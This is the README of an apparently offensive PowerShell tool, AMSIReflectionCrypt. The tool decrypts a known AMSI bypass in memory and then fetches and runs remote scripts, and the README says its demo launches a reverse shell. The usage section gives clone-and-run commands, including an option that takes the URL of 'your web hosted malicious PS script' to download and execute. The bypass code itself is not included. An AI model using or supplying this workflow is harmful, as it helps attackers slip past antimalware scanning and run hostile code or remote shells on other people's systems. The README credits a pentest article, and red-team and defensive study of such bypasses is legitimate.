 # AMSIReflectionCrypt
Forcing AMSI Fail by Decrypting 'Matt Graebers one-liner AMSI bypass' in memory [AES-128]
and invoke PowerShell command execution from remote scripts after AMSI is bypassed.

in the example shown, the bypass is used to Invoke a reverse shell after AMSI is bypassed:

![ezgif com-resize (2)](https://user-images.githubusercontent.com/91469978/229790638-09003b42-08cd-4a4f-9a43-db74ee5ff4e9.gif)

# Usage
```
  git clone https://github.com/M0M3NTUM44/AMSIReflectionCrypt.git
  cd AMSIReflectionCrypt
  .\AMSIReflectionCrypt.ps1 -h
```
  -ts  Invoke the TestScript.ps1 from GitHub.
```
.\AMSIReflectionCrypt.ps1 -ts
```
  -u   Full path to your web hosted malicious PS script (Default - TestScript.ps1 from GitHub).
```
.\AMSIReflectionCrypt.ps1 -u https://PATH/TO/script.ps1
```
The TestScript.ps1 file simply types "amsiutils" (flagged string) to the terminal to test if AMSI detection was Bypassed.

# Credits & Resources
1. https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/
2. https://twitter.com/mattifestation
